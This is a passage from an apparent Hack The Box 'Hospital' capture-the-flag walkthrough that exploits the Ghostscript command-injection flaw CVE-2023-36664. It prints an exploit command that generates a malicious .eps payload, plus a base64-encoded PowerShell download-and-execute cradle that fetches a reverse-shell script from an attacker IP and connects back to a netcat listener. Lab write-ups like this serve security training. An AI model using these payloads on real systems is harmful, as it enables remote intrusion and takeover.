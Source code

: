 This means I have to create a payload in `.eps` format that will be execute after uploading it.

So I found 1 exploit that works as Command Injection and will generate the payload in `.eps` format.

##### [CVE-2023-36664: Command injection with Ghostscript PoC + exploit](https://www.vicarius.io/vsociety/posts/cve-2023-36664-command-injection-with-ghostscript-poc-exploit)

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Hospital]
└─$ python3 exploit.py --generate --payload 'cmd.exe /c powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADEAOAAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAGMAcAAuAHAAcwAxACIAKQA=' --filename run --extension eps
```
{: .nolineno}

Now the payload is created so lets upload it as a attachment of a mail and wait for its execution of this payload from machine ⏬

![Image](Pasted%20image%2020240426135633.png)
I have to wait a while so that the payload of `ghostscript` works on the system ⏬

![Image](Pasted%20image%2020240426141337.png)
_Got the reverse Shell_

Lets talk about above pictures Points ⏬

1. I generated a <span style="color:#fd77f8">powershell</span> payload that is encoded with <span style="color:#fd77f8">UTF16 little endian</span> that works for windows system + <span style="color:#fd77f8">base64</span> encoded it.

```bash
echo -n 'IEX(New-Object Net.WebClient).downloadString("http://10.10.16.18/Invoke-PowerShellTcp.ps1")'| iconv --to-code UTF-16LE | base64 -w 0
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADEAOAAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAGMAcAAuAHAAcwAxACIAKQA=
```
{: .nolineno}

2. Then I ran the exploit and generated the exploit file named as <span style="color:#fd77f8">run.eps</span>.

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Hospital]
└─$ python3 exploit.py --generate --payload 'cmd.exe /c powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADEAOAAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAGMAcAAuAHAAcwAxACIAKQA=' --filename run --extension eps 
[+] Generated EPS payload file: run.eps
```
{: .nolineno}

3. I started the python http server on port 80 where the exploit will download it and execute it.
4. This is a netcat listener on port 445 where I will be capturing this revere shell.

